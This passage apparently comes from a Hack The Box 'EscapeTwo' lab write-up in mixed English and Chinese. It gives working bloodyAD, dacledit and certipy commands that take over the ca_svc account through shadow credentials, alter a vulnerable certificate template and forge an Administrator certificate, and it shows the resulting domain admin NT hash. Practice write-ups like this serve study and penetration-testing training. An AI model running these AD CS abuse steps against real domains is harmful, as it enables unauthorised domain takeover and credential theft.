 ```

*Management Department That means we can change into other users by this management account.
```

Exploits:
```
这些步骤的最终目的是利用配置不当的 AD Certificate Services 和服务账户权限：

修改对象所有权，控制服务账户。
查找可滥用的证书模板。
请求伪造的证书，以管理员身份进行操作。

By checking the other users in this machine, we found the special one ca_svc, ca_svc 通常是一个与证书颁发机构（Certificate Authority, CA）相关的服务帐户。这个帐户通常用于支持域中的公钥基础设施（PKI）服务
If we can control this user, we can create administrator hashes and certificates for ourselves.
```

将用户 ryan 设置为用户 ca_svc 的所有者
`bloodyAD --host dc01.sequel.htb -d sequel.htb -u ryan -p WqSZAF6CysDQbGb3 set owner ca_svc ryan`
为用户 ryan 添加对目标 ca_svc 对象的完全控制权限
`dacledit.py -action 'write' -rights 'FullControl' -principal 'ryan' -target 'ca_svc' 'sequel.htb'/'ryan':'WqSZAF6CysDQbGb3'`
通过滥用 AD CS 的 Shadow Credentials 功能，以 ca_svc 帐户的身份生成证书凭据，从而进行模拟。
`certipy-ad shadow auto -u ryan@sequel.htb -p 'WqSZAF6CysDQbGb3' -dc-ip 10.10.11.51 -ns 10.10.11.51 -target dc01.sequel.htb -account ca_svc`
查找域控制器（dc01.sequel.htb）中的可滥用证书模板。
特别是定位具有安全漏洞（如误配置的权限）的证书模板，为后续请求伪造证书提供支持。
`KRB5CCNAME=$PWD/ca_svc.ccache certipy-ad find -scheme ldap -k -debug -target dc01.sequel.htb -dc-ip 10.10.11.51 -vulnerable -stdout`
通过指定的证书模板 DunderMifflinAuthentication，滥用证书签名功能。
生成可用于模拟用户（如管理员）的证书。
`KRB5CCNAME=$PWD/ca_svc.ccache certipy-ad template -k -template DunderMifflinAuthentication -target dc01.sequel.htb -dc-ip 10.10.11.51`
请求证书服务（sequel-DC01-CA）签发证书。
使用目标模板 DunderMifflinAuthentication，并生成包含管理员 UPN 的证书（Administrator@sequel.htb）。
最终目标是利用证书伪造身份登录。
`certipy-ad req -u ca_svc -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -ca sequel-DC01-CA -target dc01.sequel.htb -dc-ip 10.10.11.51 -template DunderMifflinAuthentication -upn Administrator@sequel.htb -ns 10.10.11.51 -dns 10.10.11.51`
`certipy-ad req -u ca_svc -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -ca sequel-DC01-CA -target DC01.sequel.htb -dc-ip 10.10.11.51 -template DunderMifflinAuthentication -upn Administrator@sequel.htb -ns 10.10.11.51 -dns 10.10.11.51`
使用生成的 PFX 文件（包含管理员证书）进行身份验证。
验证后可获得管理员权限，执行其他操作。
`certipy-ad auth -pfx ./administrator_10.pfx -dc-ip 10.10.11.51`
Then we got
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/EscapeTwo]
└─$ certipy-ad auth -pfx ./administrator_10.pfx -dc-ip 10.10.11.51
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Found multiple identifications in certificate
[*] Please select one:
    [0] UPN: 'Administrator@sequel.htb'
    [1] DNS Host Name: '10.10.11.51'
> 0
[*] Using principal: administrator@sequel.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:7a8d4e04986afa8ed4060f75e5a0b3ff
```
That means we can use evil-winrm to get the Administrator shell